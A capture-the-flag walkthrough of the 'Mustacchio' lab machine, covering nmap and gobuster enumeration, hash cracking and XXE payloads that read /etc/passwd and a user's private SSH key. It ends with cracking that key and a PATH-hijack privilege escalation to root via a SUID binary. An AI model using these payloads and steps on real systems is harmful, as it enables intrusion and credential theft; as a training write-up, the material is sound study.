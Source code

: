 ## Mustacchio

# Enumeration
```
# Nmap 7.91 scan initiated Sun Jun 20 11:21:54 2021 as: nmap -sCV -oN nmap/initial -vvv -p 22,80,8765 10.10.236.197
Nmap scan report for 10.10.236.197
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-06-20 11:21:54 PDT for 18s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    syn-ack ttl 61 nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 20 11:22:12 2021 -- 1 IP address (1 host up) scanned in 18.18 seconds

```

ssh a web server and what looks like a login panel let start by looking at the web server

# Web Server Port 80
```
/images               (Status: 301) [Size: 315] [--> http://10.10.236.197/images/]
/about.html           (Status: 200) [Size: 3152]
/blog.html            (Status: 200) [Size: 3172]
/contact.html         (Status: 200) [Size: 1450]
/index.html           (Status: 200) [Size: 1752]
/gallery.html         (Status: 200) [Size: 1950]
/custom               (Status: 301) [Size: 315] [--> http://10.10.236.197/custom/]
/robots.txt           (Status: 200) [Size: 28]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.236.197/fonts/]

```

Enumerating with gobuster finds all the pages we found while looking around the site manually but we also find a custom directory. Upon examing this directory we can then go to a js directory that contains a interesting file users.bak
```
YtableusersusersCREATE TABLE users(username text NOT NULL, 0]{redacted_username}{redacted_hash}

```

We find can put the hash into crackstation and quickly crack the hash and now possibly have credentials lets go to the admin page we found earlier and see if they work.

Our credentials do infact work and we get a adminpanel page where we can add a comment on the website. If we look at the source code/attempt to submit a blank comment we get the alert Insert XML Code so we might be looking at an XXE Injection vector also we see the following interesting comment
```
<!-- Barry, you can now SSH in using your key!-->

```

So looks like the user barry might have an exposed ssh key we can access via xxe. Furthermore in the code we find this comment
```
 //document.cookie = "Example=/auth/dontforget.bak"; 
```

Which contains the following file content
```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment> 

```

So now we know how to structure a valid xml request for this form so we craft the following sample payload
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 

```

We get the returned the following
```
Comment Preview:

Name: Joe Hamd

Author : Barry Clad

Comment :
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false joe:x:1002:1002::/home/joe:/bin/bash barry:x:1003:1003::/home/barry:/bin/bash

```

So we have xxe and we confirm that barry's home directory is in fact in /home/barry so lets modifiy our payload and see if we can get his ssh key
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```

We successfully retrieve the ssh key but it is encrypted so lets use ssh2john then crack it
```
python /usr/share/john/ssh2john.py barry_id_rsa > barry_id_rsa_hash

john --wordlist=/usr/share/wordlists/rockyou.txt barry_id_rsa_hash

```

We quickly are able to crack the pass and the use the ssh key to gain a foothold

# Privilege Escalation
We find the user.txt flag in barry's home directory. We try and check for sudo privileges but the credential used for barry's key doesn't work here. However we find the following when looking for suid files
```
barry@mustacchio:~$ find / -type f -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```

The /home/joe/live_log binary stands out here. Looking at the binary with strings we find the following line that stands out
```
tail -f /var/log/nginx/access.log

```

There is no absolute path defined for this tail command so we can modify our path to a directory we have permissions in and create our own tail file to instead give us a shell. We will use barry's home directory to accomplish this but using a directory such as /tmp or /dev/shm is often a more consistant choice. We do the following
```
barry@mustacchio:~$ echo "/bin/bash" > tail
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=/home/barry:$PATH
```

So now when we execute the binary /home/joe/live_log it should use our modified path and use our custom shell producing tail binary
```
barry@mustacchio:~$ /home/joe/live_log
root@mustacchio:~#
```

We successfully have a root shell and can find the root flag at /root/root.txt
